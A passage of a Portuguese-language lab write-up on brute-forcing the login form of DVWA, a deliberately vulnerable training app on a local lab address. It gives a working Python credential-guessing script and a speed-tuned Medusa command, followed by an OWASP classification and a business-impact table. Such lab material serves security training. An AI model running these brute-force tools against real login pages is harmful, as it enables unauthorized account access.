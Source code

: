 #### Custom Python Script

```python
import requests
import itertools

users = ['admin', 'user', 'msfadmin', 'root']
passwords = ['password', '123456', 'qwerty', 'msfadmin']

for user, pwd in itertools.product(users, passwords):
    data = {'username': user, 'password': pwd, 'Login': 'Login'}
    r = requests.post('http://192.168.56.101/dvwa/login.php', data=data)
    if 'Login failed' not in r.text:
        print(f"[SUCCESS] {user}:{pwd}")
        break
```

### ⚡ Otimizações de Performance

```bash
# Medusa com configurações otimizadas
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' \
  -t 10 \        # Mais threads
  -T 3 \         # Timeout menor
  -v 4           # Verbose para debugging
```

---

## 📚 Análise de Vulnerabilidades Web

### 🎯 Classificação OWASP

- **A07:2021 - Identification and Authentication Failures**
- Falha na implementação de controles de autenticação
- Permite ataques de força bruta automatizados
- Ausência de proteções adequadas

### 🔍 Vetores de Ataque Relacionados

1. **Credential Stuffing**: Uso de credenciais vazadas
2. **Password Spraying**: Senhas comuns contra muitos usuários
3. **Dictionary Attacks**: Wordlists específicas
4. **Hybrid Attacks**: Combinação de técnicas

### 📊 Impacto do Negócio

| Aspecto               | Impacto | Descrição                          |
| --------------------- | ------- | ---------------------------------- |
| **Confidencialidade** | Alto    | Acesso não autorizado a dados      |
| **Integridade**       | Médio   | Possível alteração de dados        |
| **Disponibilidade**   | Baixo   | Sistema pode permanecer disponível |
| **Reputação**         | Alto    | Danos à imagem da organização      |

---